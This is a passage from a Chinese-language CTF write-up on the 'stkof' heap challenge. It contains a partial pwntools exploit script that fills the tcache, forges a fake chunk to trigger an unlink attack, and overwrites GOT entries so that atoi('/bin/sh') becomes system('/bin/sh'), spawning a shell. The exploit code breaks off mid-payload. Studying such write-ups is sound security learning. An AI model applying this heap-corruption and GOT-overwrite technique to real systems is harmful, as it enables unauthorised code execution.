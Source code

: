 *   输入/bin/sh那么原本的```atoi("/bin/sh")```就会变成```system("/bin/sh")```
>   exp如下
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p       = process('./stkof')
elf     = ELF('./stkof')
libc    = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 函数利用
def edit(count, content):
    p.sendline('2')
    p.sendline(str(count))
    p.sendline(str(len(content)))
    p.sendline(content)
    p.recvuntil('OK\n')
def create(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')
def free(count):    # 需要用free泄露glibc地址, 所以不在最后添加p.recvuntil('OK\n')
    p.sendline('3')
    p.sendline(str(count))

s        = 0x602140         # s的初始地址
ptr      = s + (8 * 2)      # 要unlink的地址
atoi_got = elf.got['atoi']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
free_got = elf.got['free']

# 创建三个堆块用来利用unlink
create(0x80)
create(0x30)
create(0x80)

# 因为开启了tcache机制, 所以需要先free掉7个堆块
create(0x80)
create(0x80)
create(0x80)
create(0x80)
create(0x80)
create(0x80)
create(0x80)
free(4)
free(5)
free(6)
free(7)
free(8)
free(9)
free(10)

FD = ptr - 0x18
BK = ptr - 0x10
payload  = p64(0x0) + p64(0x31)
payload += p64(FD) + p64(BK)
payload += b'a' * 0x10
payload += p64(0x30) + p64(0x90)
edit(2, payload)    # 设置第二个chunk并清除第三个堆块的P标志位
free(3)             # 释放第三个chunk, 并合并第二个chunk, 使其对第二个chunk调用unlink
p.recvuntil('OK\n')

payload  = p64(0) + p64(atoi_got)           # 0
payload += p64(puts_got) + p64(free_got)    # 1 2
```